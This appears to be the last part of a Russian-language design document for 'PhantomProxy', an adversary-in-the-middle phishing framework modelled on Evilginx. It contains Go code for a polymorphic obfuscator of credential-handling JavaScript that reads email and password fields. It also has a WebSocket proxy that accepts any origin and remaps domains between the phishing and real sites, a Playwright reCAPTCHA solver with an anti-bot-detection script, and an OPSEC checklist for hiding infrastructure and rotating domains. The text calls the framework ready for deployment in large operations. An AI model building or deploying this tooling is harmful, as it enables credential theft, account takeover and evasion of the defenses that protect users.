        return strings.ReplaceAll(match, oldName, newName)
    })
}

func (p *PolymorphicInjector) generateRandomName() string {
    prefix := []string{"_0x", "_var", "_tmp"}
    chars := "abcdef0123456789"
    
    result := p.rngChoice(prefix)
    for i := 0; i < 4; i++ {
        result += string(chars[p.rng.Intn(len(chars))])
    }
    
    return result
}

func (p *PolymorphicInjector) transformStrings(code string) string {
    // Замена строковых литералов на fromCharCode
    stringRegex := regexp.MustCompile(`"([^"]*)"`)
    
    return stringRegex.ReplaceAllStringFunc(code, func(s string) string {
        if p.rng.Float32() > 0.5 {
            return p.toFromCharCode(s[1:len(s)-1])
        }
        return s
    })
}

func (p *PolymorphicInjector) toFromCharCode(s string) string {
    var codes []string
    for _, c := range s {
        codes = append(codes, fmt.Sprintf("%d", c))
    }
    return fmt.Sprintf("String.fromCharCode(%s)", strings.Join(codes, ","))
}

func (p *PolymorphicInjector) mutateBase64(code string) string {
    // Замена btoa() на альтернативы
    btoaRegex := regexp.MustCompile(`btoa\(([^)]+)\)`)
    
    alternatives := []string{
        `Buffer.from($1).toString('base64')`,
        `window.btoa.call(null, $1)`,
        `Function("return btoa")()($1)`,
    }
    
    return btoaRegex.ReplaceAllString(code, p.rngChoice(alternatives))
}

func (p *PolymorphicInjector) addDeadCode(code string) string {
    deadCodes := []string{
        `void 0;`,
        `!function(){};`,
        `Math.random()>2&&0;`,
        `for(let i=0;i<0;i++);`,
    }
    
    pos := p.rng.Intn(len(code))
    return code[:pos] + p.rngChoice(deadCodes) + code[pos:]
}

func (p *PolymorphicInjector) rngChoice(choices []string) string {
    return choices[p.rng.Intn(len(choices))]
}

func (p *PolymorphicInjector) getAppliedMutations() []string {
    return []string{"variable_rename", "string_transform", "base64_mutate"}
}

// Пример использования
func main() {
    injector := NewPolymorphicInjector("high")
    
    originalScript := `
var email = document.querySelector("#email").value;
var password = document.querySelector("#password").value;
var token = btoa(email + ":" + password);
fetch("/api/login", {
    method: "POST",
    headers: {"Authorization": "Basic " + token}
});
`
    
    result := injector.mutate(originalScript)
    
    fmt.Println("Original:")
    fmt.Println(originalScript)
    fmt.Println("\nMutated (v1):")
    fmt.Println(result)
    
    // Каждый вызов даст разный результат
    fmt.Println("\nMutated (v2):")
    fmt.Println(injector.mutate(originalScript))
}
```

### 6.3 WebSocket Прокси

```go
package main

import (
    "encoding/json"
    "fmt"
    "log"
    "net/http"
    "strings"
    
    "github.com/gorilla/websocket"
)

type WSProxy struct {
    upgrader     websocket.Upgrader
    domainMapper *DomainMapper
}

type DomainMapper struct {
    ClientDomain string
    ServerDomain string
}

func NewWSProxy(clientDomain, serverDomain string) *WSProxy {
    return &WSProxy{
        upgrader: websocket.Upgrader{
            CheckOrigin: func(r *http.Request) bool {
                return true // Разрешить все origins
            },
        },
        domainMapper: &DomainMapper{
            ClientDomain: clientDomain,
            ServerDomain: serverDomain,
        },
    }
}

func (p *WSProxy) HandleWS(w http.ResponseWriter, r *http.Request) {
    // Upgrade клиентского соединения
    clientConn, err := p.upgrader.Upgrade(w, r, nil)
    if err != nil {
        log.Printf("[-] Upgrade failed: %v", err)
        return
    }
    defer clientConn.Close()
    
    // Подключение к целевому серверу
    targetURL := p.buildTargetURL(r)
    serverConn, _, err := websocket.DefaultDialer.Dial(targetURL, nil)
    if err != nil {
        log.Printf("[-] Dial failed: %v", err)
        return
    }
    defer serverConn.Close()
    
    log.Printf("[+] WebSocket proxy established: %s -> %s", 
        r.RemoteAddr, targetURL)
    
    // Двусторонняя пересылка
    errChan := make(chan error, 2)
    
    go func() {
        errChan <- p.relay(clientConn, serverConn, "client->server")
    }()
    
    go func() {
        errChan <- p.relay(serverConn, clientConn, "server->client")
    }()
    
    // Ожидание ошибки
    err = <-errChan
    log.Printf("[-] WebSocket proxy closed: %v", err)
}

func (p *WSProxy) relay(src, dst *websocket.Conn, direction string) error {
    for {
        msgType, message, err := src.ReadMessage()
        if err != nil {
            return err
        }
        
        // Логирование
        log.Printf("[%s] %s: %s", direction, 
            p.getDirectionEmoji(direction), p.prettyPrint(message))
        
        // Ремаппинг доменов
        modifiedMessage := p.domainMapper.Replace(message)
        
        err = dst.WriteMessage(msgType, modifiedMessage)
        if err != nil {
            return err
        }
    }
}

func (p *DomainMapper) Replace(data []byte) []byte {
    // Попытка парсинга JSON
    var jsonData map[string]interface{}
    if err := json.Unmarshal(data, &jsonData); err == nil {
        p.replaceInJSON(jsonData)
        result, _ := json.Marshal(jsonData)
        return result
    }
    
    // Замена в строке
    text := string(data)
    text = strings.ReplaceAll(text, p.ServerDomain, p.ClientDomain)
    text = strings.ReplaceAll(text, p.ClientDomain, p.ServerDomain)
    return []byte(text)
}

func (p *DomainMapper) replaceInJSON(data map[string]interface{}) {
    for key, value := range data {
        switch v := value.(type) {
        case string:
            data[key] = strings.ReplaceAll(v, p.ServerDomain, p.ClientDomain)
        case map[string]interface{}:
            p.replaceInJSON(v)
        case []interface{}:
            for i, item := range v {
                if str, ok := item.(string); ok {
                    v[i] = strings.ReplaceAll(str, p.ServerDomain, p.ClientDomain)
                }
            }
        }
    }
}

func (p *WSProxy) buildTargetURL(r *http.Request) string {
    scheme := "wss"
    if r.TLS == nil {
        scheme = "ws"
    }
    
    // Замена домена на оригинальный
    host := strings.Replace(r.Host, p.domainMapper.ClientDomain, 
        p.domainMapper.ServerDomain, 1)
    
    return fmt.Sprintf("%s://%s%s", scheme, host, r.URL.Path)
}

func (p *WSProxy) prettyPrint(data []byte) string {
    var jsonData map[string]interface{}
    if err := json.Unmarshal(data, &jsonData); err == nil {
        pretty, _ := json.MarshalIndent(jsonData, "", "  ")
        return string(pretty)
    }
    return string(data)
}

func (p *WSProxy) getDirectionEmoji(direction string) string {
    if direction == "client->server" {
        return "⬆️"
    }
    return "⬇️"
}

// Пример использования
func main() {
    proxy := NewWSProxy("dev.example.local", "api.example.com")
    
    http.HandleFunc("/ws", proxy.HandleWS)
    
    fmt.Println("[*] WebSocket proxy listening on :8080")
    log.Fatal(http.ListenAndServe(":8080", nil))
}
```

### 6.4 Интеграция с Playwright (EvilPuppet)

```go
package main

import (
    "fmt"
    "log"
    "time"
    
    playwright "github.com/playwright-community/playwright-go"
)

type CaptchaSolver struct {
    pw          *playwright.Playwright
    browser     playwright.Browser
    contextPool chan playwright.BrowserContext
}

func NewCaptchaSolver() (*CaptchaSolver, error) {
    pw, err := playwright.Run()
    if err != nil {
        return nil, err
    }
    
    browser, err := pw.Chromium.Launch(playwright.BrowserTypeLaunchOptions{
        Headless: playwright.Bool(false), // Headful для обхода детекта
    })
    if err != nil {
        return nil, err
    }
    
    // Пул контекстов для параллелизма
    contextPool := make(chan playwright.BrowserContext, 5)
    for i := 0; i < 5; i++ {
        ctx, _ := browser.NewContext(playwright.BrowserNewContextOptions{
            Viewport: &playwright.ViewportSize{
                Width:  1920,
                Height: 1080,
            },
            UserAgent: playwright.String("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"),
        })
        contextPool <- ctx
    }
    
    return &CaptchaSolver{
        pw:          pw,
        browser:     browser,
        contextPool: contextPool,
    }, nil
}

func (s *CaptchaSolver) SolveReCAPTCHA(pageURL, siteKey string) (string, error) {
    // Получение контекста из пула
    ctx := <-s.contextPool
    defer func() { s.contextPool <- ctx }()
    
    page, err := ctx.NewPage()
    if err != nil {
        return "", err
    }
    defer page.Close()
    
    // Инъекция anti-detection скриптов
    s.injectAntiDetection(page)
    
    // Переход на страницу
    _, err = page.Goto(pageURL)
    if err != nil {
        return "", err
    }
    
    // Ожидание iframe reCAPTCHA
    frameSelector := fmt.Sprintf("iframe[src*='recaptcha'][src*='%s']", siteKey)
    
    captchaFrame, err := page.WaitForFrame(frameSelector, playwright.PageWaitForFrameOptions{
        Timeout: playwright.Float64(30000),
    })
    if err != nil {
        return "", fmt.Errorf("reCAPTCHA iframe not found: %w", err)
    }
    
    // Клик по чекбоксу
    checkboxSelector := "#recaptcha-anchor"
    err = captchaFrame.Click(checkboxSelector)
    if err != nil {
        return "", err
    }
    
    fmt.Println("[*] Waiting for reCAPTCHA solution...")
    
    // Ожидание токена
    token, err := s.waitForToken(page, siteKey)
    if err != nil {
        return "", err
    }
    
    fmt.Printf("[+] reCAPTCHA solved! Token: %s...\n", token[:20])
    
    return token, nil
}

func (s *CaptchaSolver) waitForToken(page playwright.Page, siteKey string) (string, error) {
    timeout := time.After(120 * time.Second)
    ticker := time.NewTicker(500 * time.Millisecond)
    defer ticker.Stop()
    
    for {
        select {
        case <-timeout:
            return "", fmt.Errorf("timeout waiting for reCAPTCHA token")
        case <-ticker.C:
            token, err := page.Evaluate(fmt.Sprintf(`() => {
                const textarea = document.querySelector('textarea[name="g-recaptcha-response"]');
                return textarea ? textarea.value : null;
            }`))
            if err != nil {
                continue
            }
            
            if tokenStr, ok := token.(string); ok && tokenStr != "" {
                return tokenStr, nil
            }
        }
    }
}

func (s *CaptchaSolver) injectAntiDetection(page playwright.Page) {
    stealthScript := `
    // Скрытие webdriver флага
    Object.defineProperty(navigator, 'webdriver', {
        get: () => false
    });
    
    // Подмена plugins
    Object.defineProperty(navigator, 'plugins', {
        get: () => [1, 2, 3, 4, 5]
    });
    
    // Подмена languages
    Object.defineProperty(navigator, 'languages', {
        get: () => ['en-US', 'en']
    });
    
    // Добавление chrome объекта
    window.chrome = {
        runtime: {},
        loadTimes: function() {},
        csi: function() {}
    };
    
    // Подмена permissions
    const originalQuery = window.navigator.permissions.query;
    window.navigator.permissions.query = (parameters) => (
        parameters.name === 'notifications' ?
            Promise.resolve({ state: Notification.permission }) :
            originalQuery(parameters)
    );
    
    // Скрытие headless признаков
    Object.defineProperty(navigator, 'userAgent', {
        get: () => 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36'
    });
    `
    
    page.AddInitScript(playwright.PageAddInitScriptOptions{
        Content: playwright.String(stealthScript),
    })
}

// Пример использования
func main() {
    solver, err := NewCaptchaSolver()
    if err != nil {
        log.Fatal(err)
    }
    defer solver.pw.Stop()
    
    pageURL := "https://www.google.com/recaptcha/api2/demo"
    siteKey := "6LeIxAcTAAAAAJcZVRqyHh71UMIEGNQ_MXjiZKhI" // Тестовый ключ
    
    token, err := solver.SolveReCAPTCHA(pageURL, siteKey)
    if err != nil {
        log.Printf("[-] Failed: %v", err)
        return
    }
    
    fmt.Printf("[+] Success! Token: %s\n", token)
}
```

---

## 7. Рекомендации по Тестированию

### 7.1 Проверка TLS Fingerprint

```bash
# Использование tlsfingerprint.io для проверки
curl -s https://tlsfingerprint.io/api/v1/lookup | jq

# Сравнение JA3 хешей
# Ожидаемый: JA3 Chrome 133
# Фактический: должен совпадать
```

### 7.2 Детект Ботов

```python
# Тестовые сценарии
test_cases = [
    {"user_agent": "curl/7.68.0", "expected": "bot"},
    {"user_agent": "Mozilla/5.0...", "expected": "human"},
    {"ja3": "known_bot_hash", "expected": "bot"},
    {"request_interval_ms": 10, "expected": "bot"},
    {"request_interval_ms": 2000, "expected": "human"},
]
```

### 7.3 OPSEC Checklist

- [ ] Нет утечек реального IP (Cloudflare Workers)
- [ ] TLS fingerprint совпадает с браузером
- [ ] Логи зашифрованы AES-256
- [ ] Домены ротируются автоматически
- [ ] Service Worker не детектится
- [ ] WebSocket трафик не палится

---

## 8. Заключение

**PhantomProxy** представляет собой эволюцию AitM-фреймворков, объединяя лучшие практики Evilginx и его форков с современными технологиями 2025-2026. Ключевые преимущества:

1. **Автоматизация** — LLM генерирует конфиги вместо ручного YAML
2. **Скрытность** — Полный TLS spoofing + Service Worker гибрид
3. **Масштабируемость** — Кластерная архитектура с Redis и PostgreSQL
4. **Адаптивность** — Автокоррекция при изменении целевых сайтов
5. **OPSEC** — Шифрование логов, ротация доменов, маскировка IP

Фреймворк готов к развёртыванию как на одном VPS, так и в распределённом кластере для крупных операций.

---

**Лицензия:** BSD-3-Clause (наследие Evilginx)  
**Репозиторий:** (будет создан)  
**Документация:** https://phantomproxy.dev (будет создана)
